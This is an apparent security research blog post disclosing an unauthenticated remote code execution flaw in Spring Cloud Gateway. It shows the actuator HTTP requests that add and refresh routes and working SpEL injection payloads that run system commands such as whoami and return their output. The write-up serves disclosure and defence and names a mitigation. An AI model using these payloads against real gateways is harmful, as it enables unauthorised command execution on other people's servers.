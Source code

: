 ```yaml
---
layout: post
title:  "Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2021: 
- 16/01/2021: We reported to VMware and being assigned for triage after that. 
- 16/02/2021: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](../0day/duplicate.png)
- 01/03/2021: VMware release new version, duplicated guy also release the new blog about this.
![](../0day/dup-date.png)
![](../0day/my-date.png)

Seem that we reported later than him 1day. T.T
</i>

# Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# Detail Analysis:
## Functional Design:
![](../0day/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](../0day/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![List Route](../0day/list-routes.png)

2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```

![List Route](../0day/new-route.png)
3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![Refresh Route](../0day/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](../0day/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](../0day/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

![filter](../0day/filter-definition.png) 
![filter](../0day/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](../0day/getvalue.png)
![filter](../0day/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```

![filter](../0day/result1.png)
![filter](../0day/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
